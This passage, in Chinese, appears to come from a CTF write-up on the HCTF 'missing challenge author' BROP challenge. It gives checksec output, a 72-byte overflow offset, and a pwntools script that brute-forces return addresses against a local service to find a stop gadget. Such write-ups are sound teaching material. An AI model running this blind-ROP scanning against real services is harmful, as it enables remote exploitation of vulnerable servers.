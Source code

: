 所以之后的任务是：

寻找BROP Gadget（注:什么是BROP Gadget 可在Drops仔细阅读）

找到对用PLT项

<br>

**HCTF 之 出题人失踪了 (brop)**

了解了，攻击流程，以及攻击方法，我们就可以尝试做这个题目了。杭电的师傅已经，把源码公开在github上了。我们可以自己拿下来编译一下。

**已知信息**

比赛的时候，题目给了ip和端口 其他任何信息都没有。但是后面给出了bof的buffer大小作为提示。



```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

而且题目没有开Canary防护，所以我们并不需要突破Canary

经过测试，当输入的字符超过72字节，程序就不会再打印 No password, No game了。

<br>

**首先寻找 stop gadget**

这个地方，muhe师傅交了我一种方法，那就是利用pwntools的异常处理来检测。因为我们需要return address指向一块代码区域，当程序的执行流跳到那段区域之后，程序并不会crash，而是进入了无限循环，这时程序仅仅是hang在了那里，攻击者能够一直保持连接状态。于是，我们把这种类型的gadget，成为stop gadget，这种gadget对于寻找其他gadgets取到了至关重要的作用。



```
from pwn import *
io = remote("127.0.0.1",10002)
def log_in_file(addr):
    #f = open("gadgets.txt",'a')
    #f = open('res.txt','a')
    f = open('puts.txt','a')
    f.write("the addr:0x%xn"%addr)
    f.close()
def find_stop_gadget(addr):
    io = remote("127.0.0.1",10002)
    payload = "A"*72 + p64(addr)
    io.recvuntil("WelCome my friend,Do you know password?")
    io.sendline(payload)
    try:
        io.recvline()
        if(io.recv()!=None):
            log.info("alie! at 0x%x" %addr)
            log_in_file(addr)
            io.close()
    except EOFError as e:
            io.close()
            log.info("the connection is close at 0x%x" %addr)
start = 0x400000
while True:
    start +=1
    print "[*] Rand:{0}".format(start)
    find_stop_gadget(start)
    if start &gt;0x40300000:
        break
```
